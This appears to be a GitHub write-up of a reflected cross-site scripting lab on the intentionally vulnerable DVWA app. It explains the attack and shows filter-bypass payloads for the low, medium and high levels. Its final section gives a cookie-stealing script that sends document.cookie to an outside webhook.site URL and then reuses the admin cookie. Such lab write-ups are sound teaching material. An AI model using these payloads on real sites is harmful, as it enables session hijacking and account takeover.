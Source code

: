 # XSS-Reflected

![image](https://user-images.githubusercontent.com/106005322/218803765-43d31ef9-22fb-4c84-a7a2-a6dc84a261ad.png)
#
## What is Reflected-XSS?

#### XSS stands for Cross Site Scripting. This attack is a form of interference in the form of a code injection attack.

#### Reflected (Non-Persistent) XSS attacks occur when the malicious payload is included in the request sent to the vulnerable web application and is then reflected such that the server’s HTTP response consists of the payload. Attackers leverage social engineering techniques such as phishing attacks to make the victim include the malicious script in their request to the webserver. The victim’s browser then executes the malicious script as the HTTP response. 

#### Reflected XSS attacks are non-persistent such that each victim needs to send the request with a malicious payload. As a result, attackers tend to trick as many users as possible to succeed in the attack. Such attacks are often aimed at message forum form submissions, error messages, or search engine results pages, as it is easier to craft a malicious e-mail message that many users can click on. As one of the most common types of XSS attacks, reflected XSS does not require the attacker to locate and access a vulnerable web application that would allow them to inject malicious scripts permanently

#
#
## This is a Reflected-XSS simulation that i did on DVWA(Damn Vulnerable Web Application) from low to high stages
#
#

## Low

![Screenshot (21)](https://user-images.githubusercontent.com/106005322/218767063-3495683c-fb3f-4a10-85ab-9dc9b179c304.png)
#### so first of all I check the source code, in this source code I found that ```$_GET[ 'name' ]``` will print all the output that is filled in the variable ```$_GET```

#

![Screenshot (24)](https://user-images.githubusercontent.com/106005322/218767546-6ad92d61-b3a4-4a92-b7a7-76a619362593.png)
#### so now we know that we can inject the script into the text box, here I enter the js script ```<script>alert("Taming here")</script>``` and we can see that this page has a vulnerability to xss

#
#
## Medium

![Screenshot (22)](https://user-images.githubusercontent.com/106005322/218767232-38b9af68-67c4-4830-b459-34712abb23ac.png)
#### at this medium level I found there is ```str_replace( '<script>', '', $_GET[ 'name' ] );``` , the function of this code is to change case-sensitive words that are ```< script>``` to ```''``` , if we look at the source code this means if we enter the word ```<script>``` , the string will be deleted

#

![Screenshot (25)](https://user-images.githubusercontent.com/106005322/218767588-bc8e9378-4a8a-4e58-883e-15501b27a813.png)
#### so the solution is we just need to change any letter in ```<script>``` to uppercase, this is because ```str_replace``` only works on lowercase letters. now I will change ```<script>``` to ```<Script>```, so if I enter ```<Script>alert("Taming here")</script>``` it will show this page has xss vulnerability

#
#
## High

![Screenshot (23)](https://user-images.githubusercontent.com/106005322/218767295-0a1d024f-bdd2-4a74-8709-b92590f4b8fc.png)
#### at this high level we can see in the source code there is ```preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/ i' , '', $_GET[ 'name' ] );```, this ```preg_replace``` works to change the word that is ```'/<(.*)s(.*)c(.*)r(.* )i(.*)p(.*)t/i'``` to ```''``` which means it will be deleted. it doesn't matter whether the letter is lowercase or uppercase or even the one that matches the value in the ```preg_replace```. this means we cannot inject js code

#

![Screenshot (26)](https://user-images.githubusercontent.com/106005322/218767689-1fe43da0-8c6b-45f1-abdb-65d65208fc26.png)
#### so I tried to find a solution on the portswigger page, here I have understood that html tags that have an ```alert``` function can also be injected

#

![Screenshot (27)](https://user-images.githubusercontent.com/106005322/218767748-af21b5a2-07cf-4360-813b-7e5f8406b583.png)
#### now we can see that I have bypassed it by entering ```<image src/onerror=alert(1)>```


#
#
#

# Exploiting XSS-Reflected to steal cookies
#

![Screenshot (43)](https://user-images.githubusercontent.com/106005322/219379111-49619db5-d558-4e9b-9971-c72a30b8f39b.png)
#### first of all I will use a webhook as a listener to capture cookies, here I will use the following link and combine it with a js script which is ```<script>document.location='?c='+document.cookie;</script>``` + ```https:// webhook.site/3c1b2da1-3088-4793-8540-639634828977``` 
#

#### and it will look like this ```<script>document.location='https://webhook.site/3c1b2da1-3088-4793-8540-639634828977?c='+document.cookie;</script>```

#

![Screenshot (37)](https://user-images.githubusercontent.com/106005322/219379164-62072679-a516-4360-8e62-957b6afde612.png)
#### after that I will inject the script to the text box as an admin user on this dvwa, as you can see on the url it not only captures the cookie but it can also capture what level is used, but in a real situation this may require a phishing attack or social engineering
#

![Screenshot (40)](https://user-images.githubusercontent.com/106005322/219379204-6a952be4-74a8-4668-8d15-a71530ece2d9.png)
#### if I go back to the webhook website we can see I've got the admin's cookie
#

![Screenshot (45)](https://user-images.githubusercontent.com/106005322/219379253-25a5a634-8024-4373-9880-53425c217dc6.png)
#### lastly this cookie I can use to access as an admin where we know that if we log in as an admin we have features that are not available to normal users



